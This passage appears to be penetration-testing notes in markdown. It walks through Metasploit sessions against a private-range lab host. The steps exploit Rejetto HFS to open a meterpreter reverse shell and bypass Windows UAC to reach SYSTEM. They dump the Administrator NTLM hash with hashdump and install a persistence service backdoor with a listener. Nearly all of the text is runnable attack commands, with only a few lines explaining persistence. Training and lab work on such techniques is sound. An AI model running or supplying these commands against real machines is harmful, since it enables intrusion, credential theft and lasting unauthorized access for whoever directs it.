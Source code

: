 ```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a uac_bypass
msf6> setg rhosts 10.3.28.181
msf6> db_nmap -sV 10.3.28.181

msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> run

meterpreter> sysinfo
meterpreter> getprivs  # not a lot of privileges
meterpreter> shell

C:> net localgroup administrators
# CTRL+C
meterpreter>
# CTRL+Z

msf6> use exploit/windows/local/bypassuac_injection
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set session 1
msf6> set lport 4445  # the port 4444 is used by session 1
msf6> set target Windows\ x64
msf6> run

meterpreter> getprivs  # more privileges aquired
meterpreter> getsystem
meterpreter> getuid    # NT AUTHORITY\SYSTEM
meterpreter> hashdump  # Administrator NTLM hash
```

#### Persistence on Windows

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* We can utilize various port exploitation persistence modules to ensure that we always have access to the target system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a persistence
msf6> setg rhosts 10.3.24.181
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run

meterpreter> sysinfo
# CTRL+Z

msf6> search platform:windows persistence
msf6> use exploit/windows/local/persistence_service
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set session 1
msf6> set lport 4445
msf6> run            # Create a backdoor by crafting a background process
meterpreter> getuid  # NT AUTHORITY\SYSTEM
# CTRL+Z

msf6> sessions -K
msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost eth1
```